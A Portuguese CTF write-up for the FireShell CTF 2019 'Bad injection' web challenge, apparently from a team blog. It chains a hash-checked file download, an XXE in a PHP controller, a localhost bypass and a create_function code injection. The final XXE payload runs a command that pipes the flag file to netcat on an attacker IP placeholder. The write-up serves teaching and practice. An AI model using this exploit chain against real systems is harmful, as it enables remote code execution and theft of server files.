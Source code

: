 ```yaml
---
layout: post
title:  "Bad injection"
date:   2019-01-27 00:00:01 -0200
categories: [CTF,WEB,Fireshell CTF]
author: lynfs
event: "FireShell CTF 2019"
tags: [CTF,WEB,Fireshell CTF]
description: "Acessando as 3 primeiras abas disponíveis home, about e contact, nada de útil nos é apresentado. Mas, acessando a aba List, a página nos retorna o icone de uma imagem corrompida ao lado da imagem carregada."
image: "/assets/images/writeups/vtZ1BiQ.png"
---
```



# Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](/assets/images/writeups/vtZ1BiQ.png)

Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.

Analisando a source desta página, é possível ver uma passagem de parâmetros:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](/assets/images/writeups/kVAupWz.png)


## Exploração

Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.
```php
    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...
```

E o arquivo **Custom.php** em **/app/Controllers/** .

```php
    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>
```

Utilizando do XXE, também podemos retornar arquivos do servidor.

![xxe](/assets/images/writeups/5aKPJVP.png)

## Localhost bypass

no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:

```php
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.

Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:
```php
    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

que nos dá uma clara injeção de código.

---
Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.

o árduo payload:
```xml
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'SEU_IP'.chr(32).'sua_porta'))">
    ]>
    <root><name>&xxe;</name></root>
```
* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a request.
* o arquivo **da0f72d5d79169971b62a479c34198e7** é o arquivo que contém a flag, porém, antes de obter esta informação, foi realizada a listagem de arquivos e diretórios, este payload é o final.

a saída:

![flag](/assets/images/writeups/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.
